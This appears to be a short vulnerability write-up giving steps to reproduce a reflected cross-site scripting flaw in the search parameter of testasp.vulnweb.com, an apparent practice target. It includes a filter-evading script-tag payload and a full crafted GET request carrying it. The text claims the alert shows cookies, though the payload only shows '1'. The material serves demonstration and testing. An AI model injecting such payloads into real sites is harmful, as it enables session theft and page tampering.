

# STEPS TO REPRODUCE
To reproduce this, an attacker has to:
 Prepare a Javascript payload that it wants the victim to execute. In this case, for Proof of Concept purposes, our Javascript code will prompt an alert showing the users' cookies.
    Code :
    ><scrIpt>alert(1);</scRipt>

Inject this Javascript code properly into the vulnerable parameter, creating thus a crafted future GET request that will inject the payload.
    Code :
  GET /Search.asp?tfSearch=%3E%3CscrIpt%3Ealert%281%29%3B%3C%2FscRipt%3E HTTP/1.1
  Host: testasp.vulnweb.com
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Connection: close
  Referer:      http://testasp.vulnweb.com/Search.asp?tfSearch=%3E%3CscrIpt%3Ealert%281%29%3B%3C%2FscRipt%3E
  Cookie: ASPSESSIONIDCSTCTBRD=GNKAPDHCKCJGOAICPFKDNNEH
  Upgrade-Insecure-Requests: 1